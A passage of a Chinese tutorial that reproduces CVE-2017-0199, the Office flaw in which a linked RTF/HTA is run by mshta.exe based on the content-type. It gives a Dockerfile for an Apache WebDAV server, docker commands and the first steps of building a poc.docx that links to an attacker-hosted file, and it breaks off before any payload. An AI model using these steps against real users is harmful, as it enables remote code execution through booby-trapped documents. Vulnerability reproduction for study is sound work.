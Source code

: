 为什么content-type这么关键？ 因为OFFICE调用[URL Moniker](http://link.zhihu.com/?target=https%3A//msdn.microsoft.com/en-us/library/ms775149%2528v%3Dvs.85%2529.aspx)（COM对象）来下载链接指向的HTA文件，并且通过识别响应头中content-type的字段信息来判断文件的类型，最后调用类型对应的程序来执行（HTA文件由mshta.exe来执行）。



### 0x1、漏洞复现

#### 第一步：构建隐藏了图标的正常链接文档

首先搭建web服务器，基于如下dockerfile

```
FROM ubuntu:14.04

RUN sed -i 's/archive.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.list

RUN apt-get update -y && apt-get install -y apache2

RUN a2enmod dav
RUN a2enmod dav_fs
RUN a2enmod dav_lock
RUN a2enmod headers

RUN service apache2 restart

RUN apt install vim -y

RUN apt install lrzsz -y

EXPOSE 80
```

运行如下命令构建docker镜像：

```
docker build -t cve-2017-0199-server .
docker run -it -p 8888:80 cve-2017-0199-server
```

在本地创建一个1.docx上传到 /var/www/html/ 

```
cd /var/www/html
service apache2 start
mkdir test
cp 1.docx test/1.rtf
```

在本地创建一个poc.docx文件,然后插入链接`http://MyIP:8888/test/1.rtf`：
